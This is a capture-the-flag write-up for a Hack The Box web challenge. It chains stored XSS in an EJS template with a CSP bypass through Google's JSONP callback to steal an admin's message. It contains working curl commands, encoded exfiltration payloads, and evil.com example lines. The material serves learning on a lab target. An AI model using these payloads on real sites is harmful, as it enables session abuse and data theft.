









Cyber Apocalypse HTB - Massagold
just wanna write down something so i can look at it someday.
| Info | Value |
|---|---|
| Category | Web |
| Name | Massagold |
| Difficulty | Labeled “Very Easy” but it doesn’t seem like the label LOL |
| Stack | Express.js + EJS + SQLite + Playwright Firefox bot |
| Flag | HTB{m3554g3_1n_7h3_cu570dy_ch41n_<REDACTED>} |
| Author | chmakorkrichh |
This challenge is dressed up as a medieval-themed messaging app — think knights, archivists, ravenmasters, the whole aesthetic — where users send “sealed letters” to each other. The fun part: there’s an admin bot that automatically opens any letter sent to the admin user, like some overworked royal secretary who reads every piece of mail the second it lands. The flag itself is sitting in admin’s inbox, sent by a user called archivist. So my job was basically: find a way to read mail that isn’t addressed to me.
1. Poking Through the Source Code
To be fully understand how we can get the flag, we need to review the source code first.
I’m not a developer. No coding background, nothing. So for this source code review part I leaned on AI to read through the code with me and point out anything that looked sketchy. Here’s the folder structure we were working with:
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
├── app/
│ ├── server.js # Express server (port 3000)
│ ├── routes.js # Route definitions
│ ├── db.js # SQLite database layer
│ ├── controllers/
│ │ ├── authController.js # Login/Register (bcrypt, parameterized queries)
│ │ └── messageController.js # Send/Read messages ⚠️
│ ├── middleware/auth.js # Session auth guard
│ ├── views/
│ │ ├── message.ejs # ⚠️ THE culprit — unescaped output
│ │ ├── inbox.ejs # Message listing (escaped, boring, safe)
│ │ ├── new-message.ejs # Compose form
│ │ └── partials/
│ │ ├── head.ejs
│ │ └── nav.ejs
│ └── public/
│ ├── compose.js # Client-side form handler
│ └── message.js # Seal open/close UI
├── bot/
│ └── bot.js # Playwright admin bot
├── entrypoint.js # DB seeder — stores flag in message #1
├── Dockerfile
├── docker-compose.yml
└── config/
├── nginx.conf # Reverse proxy (port 80 → 3000)
└── supervisord.conf # Process manager
Aha Moment
With a little help reading entrypoint.js, I figured out the flag gets read straight from /flag.txt and dumped in as the very first message in the database:
1
2
3
4
5
6
7
8
9
10
11
12
13
14
const flag = fs.readFileSync('/flag.txt', 'utf8').trim();
// Create users: admin, archivist, scribe, ravenmaster, minstrel, alchemist
const users = {};
for (const username of ['admin', 'archivist', 'scribe', 'ravenmaster', 'minstrel', 'alchemist']) {
users[username] = await createUser(username);
}
// Message #1 — THE FLAG
await createMessage(
users.archivist, // sender_id = 2
users.admin, // recipient_id = 1
`Archive notice:\n\nThe sealed royal record reads:\n${flag}`
);
So the flag is message #1 — from archivist to admin. Great, now I know exactly where it’s hiding. Just need to figure out how to get through the front door.
Two options came to mind:
- Read admin’s messages directly — nope, blocked cold by a
recipient_idcheck - Trick admin’s own browser into reading it for me, and mailing the answer back — this is the way (hello, XSS)
2. Discovering the bugs
Bug #1 — A Copy-Paste Gone Wrong ➜ Stored XSS
File: app/views/message.ejs, line 17:
<pre class="letter-copy"><%- message.content %></pre>
<%- is unescaped EJS output it dumps raw HTML straight into the page, no questions asked. Basically an open door with no bouncer. Comparing it to the rest of the templates, which all use the escaped <%= tag, the difference jumps right out:
<%= message.sender_username %> <!-- escaped — well-behaved -->
<%= message.created_at %> <!-- escaped — well-behaved -->
<%- message.content %> <!-- RAW — the troublemaker -->
Translation: whatever HTML/JavaScript I stuff into a message content field gets rendered directly in the recipient’s browser. In other words, I get to write on someone else’s wall with my own marker. Classic Stored XSS.
Bug #2 - An Admin Bot That’s a Little Too Curious
File: app/controllers/messageController.js:
1
2
3
4
5
6
7
8
9
async function sendMessage(req, res, next) {
// ... validation and insert ...
if (recipient.username === 'admin') {
enqueueMessageVisit(result.lastID); // Bot visits any message sent to admin!
}
res.redirect('/');
}
File: bot/bot.js:
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
async function visitMessage(messageId) {
const browser = await firefox.launch({ headless: true });
const context = await browser.newContext();
try {
const page = await context.newPage();
const targetUrl = appUrl(`/messages/${encodeURIComponent(messageId)}`);
await loginAsAdmin(page); // Logs in with credentials from /app/admin_credentials.json
await page.goto(targetUrl, { waitUntil: 'load', timeout: 10000 });
await page.waitForTimeout(2000); // 2 second execution window
} finally {
await context.close();
await browser.close();
}
}
the moment I send something to admin, boom! a headless Firefox instance launches and logs in as admin for real, cookies and all. So any JavaScript I sneak into that message runs with admin’s own session. It’s like borrowing admin’s hands to do my dirty work while they’re not looking
Bug #3 - A CSP With a Google-Shaped Hole in It
Content-Security-Policy header:
1
2
3
4
5
6
7
8
9
default-src 'self';
script-src 'self' https://www.googleapis.com;
style-src 'self';
img-src 'self' data:;
font-src 'self' data:;
connect-src 'self';
object-src 'none';
form-action 'self';
frame-ancestors 'none'

| Directive | Value | What it actually means |
|---|---|---|
script-src | 'self' https://www.googleapis.com | Blocks inline scripts, but happily loads scripts from Google’s domain |
connect-src | 'self' | Lets fetch()/XHR hit the same origin — a nice little exfiltration lane |
form-action | 'self' | Allows form submissions to the same origin |
img-src | 'self' data: | Blocks loading images from elsewhere |
style-src | 'self' | Blocks inline and external styles |
object-src | 'none' | Blocks <object>, <embed> |
frame-ancestors | 'none' | Blocks getting embedded in an <iframe> |
| Missing | base-uri | You could inject a <base> tag (didn’t need it here) |
| Missing | 'unsafe-inline' in script-src | No inline event handlers (onclick, onerror, etc.) |
Caught it that https://www.googleapis.com entry is the golden ticket. Google’s Custom Search JSON API takes a callback parameter and reflects it right back as valid JavaScript. Basically Google was accidentally helping me smuggle a script past the CSP without even knowing it
3. time to get my hand dirty
overview of the web app
this is how the web app looks like after i registered a user and login. 

Step 1 - First, Just Break the HTML
Before doing anything fancy, I wanted to confirm the HTML break-out actually works, so I sent to myself: CURL command:
1
2
3
4
curl -X POST http://TARGET:PORT/messages \
-b cookies.txt \
--data-urlencode 'to_username=YOUR_USER' \
--data-urlencode 'content=</pre></div></section></main><h1>INJECTED</h1>'
received a message from myself: 

1
2
3
4
5
<!-- Before injection -->
<pre class="letter-copy">[USER_CONTENT]</pre>
<!-- After injection -->
<pre class="letter-copy"></pre></div></section></main><h1>INJECTED</h1></pre>

The </pre> closes the pre tag, </div></section></main> peels back the wrapping containers, and my <h1> ends up dropped straight into the <body>. Clean break-out.
TRICK: if use burp suite, make sure proper URL encoded by pressing CTRL+U for the content payload:  


Step 2 - Testing the Google JSONP Trick
we can debug the script by sending a seal message to ourselves.
Next I wanted to see if Google’s Custom Search API would actually reflect my callback:
1
curl -s "https://www.googleapis.com/customsearch/v1?callback=alert(1)&key=x&cx=x&q=test"
Response:
1
2
3
4
5
6
7
8
// API callback
alert(1)({
"error": {
"code": 400,
"message": "Invalid JSONP callback name: 'alert(1)'; only alphabet, number, '_', '$', '.', '[' and ']' are allowed.",
...
}
});
This is the funny part Google literally tells you the callback name is invalid, and then reflects it anyway as alert(1)({...error...}) — perfectly valid JavaScript. So when loaded as a <script src>, the browser just runs alert(1) with the error object as its argument. Thanks for the assist, Google.
Step 3 - Actually Testing the CSP Bypass
Time for the real thing. I sent the simplest possible XSS payload to admin:
1
2
3
4
curl -X POST http://TARGET:PORT/messages \
-b cookies.txt \
--data-urlencode 'to_username=admin' \
--data-urlencode 'content=</pre></div></section></main><script src="https://www.googleapis.com/customsearch/v1?callback=alert('chmakorkrich is HERE!')&key=x&cx=x&q=x"></script>'

the admin bot visits, the browser loads Google’s script, and alert('chmakorkrich is here') fires right there in admin’s own context. The <script src> from www.googleapis.com just walks straight past CSP like it’s got a VIP pass.
Step 4 - Making Sure Same-Origin Fetch Works
Now that I had a door in, I wanted to check whether fetch() to the app’s own endpoints would actually work (since connect-src 'self' allows it):
1
2
3
4
5
6
7
# URL-decoded callback:
# fetch('/messages',{method:'POST',body:new URLSearchParams({to_username:'chmakorkrich',content:'PROOF'})})
curl -X POST http://TARGET:PORT/messages \
-b cookies.txt \
--data-urlencode 'to_username=admin' \
--data-urlencode 'content=</pre></div></section></main><script src="https://www.googleapis.com/customsearch/v1?callback=fetch%28%27%2Fmessages%27%2C%7Bmethod%3A%27POST%27%2Cbody%3Anew%20URLSearchParams%28%7Bto_username%3A%27admin%27%2Ccontent%3A%27PROOF%27%7D%29%7D%29&key=x&cx=x&q=x"></script>'
This is the message will be sent to  admin. However, it will comes to my own inbox if the admin bot trigger the XSS.


Result: a message shows up in my own inbox with the content PROOF. Same-origin POST — confirmed working. At this point all the pieces were on the table, I just needed to assemble them into the actual flag-stealing payload.
Step 5 - Falling Into (and Climbing Out of) the Async Chain Trap
My first attempts using .then() chains looked like total failures. Kind of demoralizing, honestly. But after digging into it a bit more, here’s what was actually going on:
How Google wraps your callback:
1
2
3
4
// My callback: fetch('/messages',{method:'POST',...})
// Google returns:
fetch('/messages',{method:'POST',...})({...error...});
// ↑ fetch runs ↑ TypeError happens here
For a plain fetch() call:
fetch('/messages', {...})runs → the POST goes out({...error...})tries to call the returned Promise like a function → TypeError- But the POST request was already sent — it works anyway!
For chained .then() calls:
1
2
3
4
// My callback: fetch('/messages/1').then(r=>r.text()).then(t=>...)
// Google returns:
fetch('/messages/1').then(r=>r.text()).then(t=>...)({...error...});
// ↑ callbacks get registered ↑ TypeError happens here
fetch('/messages/1')runs → the GET goes out.then(...)registers its callback and hands back a new Promise({...error...})tries calling that Promise → TypeError- But the callbacks are already registered — they fire whenever the actual GET response comes back
4. The Payloads That Actually Got the Job Done
Payload 1 - XSS Confirmation
Proves the bot visits and script executes:
JavaScript:
1
fetch('/messages',{method:'POST',body:new URLSearchParams({to_username:'YOUR_USER',content:'XSS_CONFIRMED'})})
URL-encoded callback:
1
fetch%28%27%2Fmessages%27%2C%7Bmethod%3A%27POST%27%2Cbody%3Anew%20URLSearchParams%28%7Bto_username%3A%27YOUR_USER%27%2Ccontent%3A%27XSS_CONFIRMED%27%7D%29%7D%29
Full message content:
1
</pre></div></section></main><script src="https://www.googleapis.com/customsearch/v1?callback=fetch%28%27%2Fmessages%27%2C%7Bmethod%3A%27POST%27%2Cbody%3Anew%20URLSearchParams%28%7Bto_username%3A%27YOUR_USER%27%2Ccontent%3A%27XSS_CONFIRMED%27%7D%29%7D%29&key=x&cx=x&q=x"></script>
Payload 2 - Dump Admin’s Inbox
Fetches the inbox page and sends it back:
JavaScript:
1
2
3
4
5
6
fetch('/').then(function(r){return r.text()}).then(function(t){
fetch('/messages',{method:'POST',body:new URLSearchParams({
to_username:'YOUR_USER',
content:t.substring(0,500)
})})
})
URL-encoded callback:
1
fetch%28%27%2F%27%29.then%28function%28r%29%7Breturn%20r.text%28%29%7D%29.then%28function%28t%29%7Bfetch%28%27%2Fmessages%27%2C%7Bmethod%3A%27POST%27%2Cbody%3Anew%20URLSearchParams%28%7Bto_username%3A%27YOUR_USER%27%2Ccontent%3At.substring%280%2C500%29%7D%29%7D%29%7D%29
Payload 3 - Flag Exfiltration (Final)
Reads message #1 and sends the full page HTML back to you. the flag sits deep in the HTML structure (after nav, seal sections, letter-meta).
JavaScript:
1
2
3
4
5
6
fetch('/messages/1').then(function(r){return r.text()}).then(function(t){
fetch('/messages',{method:'POST',body:new URLSearchParams({
to_username:'YOUR_USER',
content:t
})})
})
URL-encoded callback:
1
fetch%28%27%2Fmessages%2F1%27%29.then%28function%28r%29%7Breturn%20r.text%28%29%7D%29.then%28function%28t%29%7Bfetch%28%27%2Fmessages%27%2C%7Bmethod%3A%27POST%27%2Cbody%3Anew%20URLSearchParams%28%7Bto_username%3A%27YOUR_USER%27%2Ccontent%3At%7D%29%7D%29%7D%29
Full message content:
1
</pre></div></section></main><script src="https://www.googleapis.com/customsearch/v1?callback=fetch%28%27%2Fmessages%2F1%27%29.then%28function%28r%29%7Breturn%20r.text%28%29%7D%29.then%28function%28t%29%7Bfetch%28%27%2Fmessages%27%2C%7Bmethod%3A%27POST%27%2Cbody%3Anew%20URLSearchParams%28%7Bto_username%3A%27YOUR_USER%27%2Ccontent%3At%7D%29%7D%29%7D%29&key=x&cx=x&q=x"></script>
After send, we will be receiving the message from admin bot:   


5. Quick Diagram - How the Whole Thing Actually Plays Out
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
┌─────────────────────────────────────────────────────────────┐
│ ME (the attacker) │
│ 1. Register account "attacker" │
│ 2. POST /messages to "admin" with an XSS payload │
│ Content: </pre></div></section></main> │
│ <script src="googleapis.com?callback=PAYLOAD"> │
└──────────────────────────┬──────────────────────────────────┘
│
▼
┌─────────────────────────────────────────────────────────────┐
│ SERVER (Express + EJS) │
│ - Stores the message with raw HTML/JS content (that <%-) │
│ - Notices recipient is "admin" → queues a bot visit │
└──────────────────────────┬──────────────────────────────────┘
│
▼
┌─────────────────────────────────────────────────────────────┐
│ ADMIN BOT (Playwright Firefox) │
│ 1. Launches headless Firefox │
│ 2. Logs in as admin (creds from admin_credentials.json) │
│ 3. Navigates to /messages/{id} │
│ 4. Browser renders the XSS payload │
│ 5. <script src> loads the Google JSONP callback │
│ 6. Google returns: PAYLOAD({...error...}) │
│ 7. JavaScript runs, fully authenticated as admin │
│ 8. fetch('/messages/1') reads the flag message (same-origin)│
│ 9. fetch('/messages', {POST}) mails the flag back to me │
│ 10. Bot waits 2 seconds, closes the browser │
└──────────────────────────┬──────────────────────────────────┘
│
▼
┌─────────────────────────────────────────────────────────────┐
│ ME (the attacker) │
│ - Polling my inbox every 5 seconds │
│ - New message shows up from "admin" │
│ - Pull out the HTB{...} flag │
└─────────────────────────────────────────────────────────────┘
6. What I Actually Took Away From This
Not sure this makes me a “real” hacker yet, but I definitely walked away understanding how XSS + a badly-configured CSP can stack together into a full exploit chain. Here’s the recap:
Techniques That Made This Work
| Technique | What it did |
|---|---|
Stored XSS via <%- | Unescaped EJS output lets raw HTML/JS render straight into the page |
| HTML context break-out | </pre></div></section></main> escapes the template’s nested containers |
| Google JSONP CSP bypass | script-src allows www.googleapis.com, and its callback param gets reflected as real JS |
| Same-origin fetch exfiltration | connect-src 'self' lets fetch() hit the app’s own endpoints |
| Bot-as-proxy | The admin bot’s authenticated session becomes my unwitting delivery service for the flag |
Things I Tried That Just… Didn’t Work
| Attempt | Why it flopped |
|---|---|
Plain <script>alert(1)</script> | CSP’s script-src has no 'unsafe-inline', so inline scripts get blocked |
<img onerror="..."> | CSP blocks inline event handlers |
<svg onload="..."> | Same story — inline handlers blocked |
Exfiltrating to an external server (fetch('http://evil.com')) | connect-src 'self' shuts that down |
<img src="http://evil.com/?data=..."> | img-src 'self' data: blocks external images |
| Reading admin’s messages directly (IDOR) | WHERE messages.recipient_id = ? blocks cross-user reads |
| SQL injection | Everything’s parameterized (? placeholders) — no luck there |
| Path traversal | express.static sanitizes paths properly |
Thanks for reading forks.